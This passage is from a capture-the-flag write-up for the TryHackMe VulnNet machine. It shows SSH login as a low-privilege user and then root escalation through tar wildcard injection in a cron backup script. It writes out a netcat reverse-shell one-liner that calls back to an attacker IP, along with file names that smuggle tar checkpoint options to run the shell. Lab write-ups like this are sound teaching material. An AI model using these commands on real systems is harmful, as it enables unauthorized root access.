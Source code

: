 We now can `ssh` into `server-management`!

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# ssh -i id_rsa server-management@$IP                          
[...]
Enter passphrase for key 'id_rsa': 
[...]
server-management@vulnnet:~$ whoami; id
server-management
uid=1000(server-management) gid=1000(server-management) groups=1000(server-management)
```

**user.txt**

```
server-management@vulnnet:~$ cat user.txt 
THM{Redacted}
```

Now I'm `server-management`, we now can escalate our privilege to root via cronjob!

**backupsrv.sh**

```bash
# What to backup. 
cd /home/server-management/Documents
backup_files="*"
[...]
# Backup the files using tar.
tar czf $dest/$archive_file $backup_files
```

Since the `backup_files` variable is using a wildcard(`*`), we can abuse it to escalate our prvilege to root!

According to the [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) website, we can break out from restricted environments by spawning an interactive system shell.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

As `backup_files` variable is using a wildcard, we can create 2 files in `/home/server-management/Documents` directory.

- --checkpoint=1
- --checkpoint-action=exec=/bin/sh

Those files will be interpreted as options passed to the `tar` command.

Now let's create 3 files in the `Documents` directory:

1. Bash reverse shell
2. --checkpoint=1
3. --checkpoint-action=exec=/bin/sh [reverse_shell.sh]

```
server-management@vulnnet:~/Documents$ cat << EOF > revshell.sh
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [Your_IP] 4444 >/tmp/f
> EOF
server-management@vulnnet:~/Documents$ chmod +x revshell.sh
server-management@vulnnet:~/Documents$ touch "/home/server-management/Documents/--checkpoint=1"
server-management@vulnnet:~/Documents$ touch "/home/server-management/Documents/--checkpoint-action=exec=/bin/sh revshell.sh"
```
